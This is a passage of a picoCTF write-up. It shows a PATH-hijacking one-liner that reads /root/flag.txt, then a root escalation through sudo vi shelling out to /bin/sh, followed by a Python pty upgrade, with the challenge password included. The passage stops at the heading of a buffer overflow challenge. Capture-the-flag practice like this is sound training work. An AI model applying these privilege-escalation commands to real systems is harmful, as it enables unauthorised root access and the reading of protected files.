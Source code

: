 ```bash
ctf-player@pico-chall$ ln -s `which cat` ls && \
> export PATH=`pwd` && \
> export SECRET_DIR="/root/flag.txt" && \
> ./bin | /usr/bin/grep pico && \
> /usr/bin/rm ls
picoCTF{XXX}
```

### hijacking

Connect to the remote server via `ssh picoctf@saturn.picoctf.net -p 53359`.

We run `sudo -l` to check what we can run as `root`.

```bash
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

We see that we can use `vi`.

We will abuse this to spawn shell as root.

```bash
picoctf@challenge:~$ sudo vi -c ':!/bin/sh' 
[sudo] password for picoctf:
```

The password is given: `g9JyzMCWpU`.

To have a more interactive shell we run `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

```bash
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@challenge:/home/picoctf# 
```

The flag is located in `/challenge` inside the `metadata.json` file.

```bash
root@challenge:/# ls challenge/
metadata.json
root@challenge:/# cat challenge/metadata.json 
{"flag": "picoCTF{XXX}", "username": "picoctf", "password": "g9JyzMCWpU"}root@challenge:/# Connection to saturn.picoctf.net closed by remote host.
```

### buffer overflow 2

Download the files and `cat vuln.c`.
